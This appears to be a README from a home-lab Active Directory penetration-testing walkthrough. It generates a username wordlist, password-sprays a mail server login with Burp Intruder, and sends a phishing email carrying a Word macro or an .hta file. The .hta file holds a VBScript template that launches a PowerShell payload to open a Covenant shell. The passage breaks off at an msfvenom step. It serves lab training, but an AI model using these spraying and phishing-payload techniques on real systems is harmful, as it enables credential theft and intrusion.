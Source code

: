 # 1. Exploring Website Information and Generating Wordlist:

- During the process of exploring a website, we discovered the presence of user information.

![image](https://github.com/singhx-hub/Active-Directory--Home-Lab-/assets/126919241/6dd20bda-c7bb-4c52-bdb9-afcebefcb6de)
![image](https://github.com/singhx-hub/Active-Directory--Home-Lab-/assets/126919241/611b278c-e6bc-450c-a215-3d4d0774a99f)
![image](https://github.com/singhx-hub/Active-Directory--Home-Lab-/assets/126919241/370b18a8-196d-4dff-bf14-918d73381b0c)
![image](https://github.com/singhx-hub/Active-Directory--Home-Lab-/assets/126919241/7471ec01-b4bc-409a-9f55-594eb1aebf85)
![image](https://github.com/singhx-hub/Active-Directory--Home-Lab-/assets/126919241/e10c3dca-450b-491d-9759-17c92437a02a)
![image](https://github.com/singhx-hub/Active-Directory--Home-Lab-/assets/126919241/95028718-f80b-4a76-bcad-daa7e5ac7b4e)
![image](https://github.com/singhx-hub/Active-Directory--Home-Lab-/assets/126919241/107b3a47-72b8-493b-9f2e-e4bd34bbd905)
![image](https://github.com/singhx-hub/Active-Directory--Home-Lab-/assets/126919241/2a7bf9db-8124-46fe-b646-2c2c4dce0ec1)


- We compiled a list of usernames and saved them in a file for further analysis and use.

![image](https://github.com/singhx-hub/Active-Directory--Home-Lab-/assets/126919241/7dbdf2ff-7c89-4725-b6c6-f15ab3f136ee)

-  Use the ["usernamify"](https://github.com/singhx-hub/Usernamify) script to generate usernames by combining the first and last names from our user list and save the output in a text file

```python
└─$ ./usernamify.py web-users > userlist
jonathontaylor
taylorjonathon
jonathon.taylor
taylor.jonathon
taylorj
----snip------
tjonathon
j.taylor
t.jonathon
jonathon
```

> ## Machines required: WorkStation-01, UbuntuMail, and Kali machine.

- Navigate to the mail server in the browser using the UbuntuMail IP.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/a7cb57e2-f47a-4bb8-aeea-c7d076270f1f)

- Open Burp Suite and intercept the request using a proxy

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/0e1243e8-e064-46b4-98fa-fcdd27d2f066)

- In Burp Suite's Intruder tool, initiate the attack by selecting the request and specifying the user and pass arguments for fuzzing. Add the generated username list to the user section and include common passwords like "summer2021!" and "fall2020!" as payload options. Configure the attack method as "Cluster Bomb" and launch the attack to test different combinations.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/1a001328-1ea6-444e-8b47-2585fe94e301)

- Accomplished the task by successfully identifying the username "a.tarolli" along with the corresponding password "Summer2021!"
- Log in to the mail server using the a.tarolli creds.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/fb42b533-d0d2-4fe6-81b7-b045e2975eb8)

## Phishing Email

- Setup listener on Covenant and generate a PowerShell launcher. 
- Host a file named rev.ps1 and copy the highlighted encoded luncher.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/b212bcc4-2595-4d6d-a3d7-c6bfc932e995)

As we don't have MS Word installed on our system so we will use [Nishang's Out-File.ps1 script](https://github.com/samratashok/nishang/blob/master/Client/Out-Word.ps1) to create a Word document and autorun macro with provided payload.


![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/1e69618b-0d57-4d91-8e98-c510b63c1d36)

> Setup smbserver using cmd `smbserver.py Share . -smb2support`. To make the file build successfully.

Host the file through Covenant Listener to transfer it.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/03c10d80-b013-4c9d-8a8f-97397aa73bb9)

Now, we will send the email with the phishing file linked on the link. Click send.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/df34a823-442c-4922-afe1-0dae15e1c300)

When on the Workstation-01 we will download the file and open it with enable editing. There is nothing happening on the Workstation-01, but on our Kali machine Covenant, we have an active Grunt activated which means now we shell.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/499854eb-afb3-47e7-838c-f1416fb8a75b)

> ## Alternate

If in case we don't have MS Word installed in our system we can utilize the `.hta` file to get a shell on Covenant. For this, we need the code:

```vb
<script language="VBScript">

  Function DoStuff()

               Dim wsh

               Set wsh = CreateObject("Wscript.Shell")

                wsh.run "<powershell command>"

               Set wsh = Nothing

  End Function

  DoStuff

  self.close

</script>
```

Now, follow the same steps as above, edit the link in the phishing email and setup listener with the host `.hta` file

When the user opens the file, we will find the grunts active.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/c718cb1f-9b3a-4cf5-a0b5-420f07fc95d3)

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/a301c30d-89ee-435d-bcb4-873ef5704988)

## We can achieve the same using METASPLOIT:

First, we must create a `.hta` file using `msfvenom`.
```bash


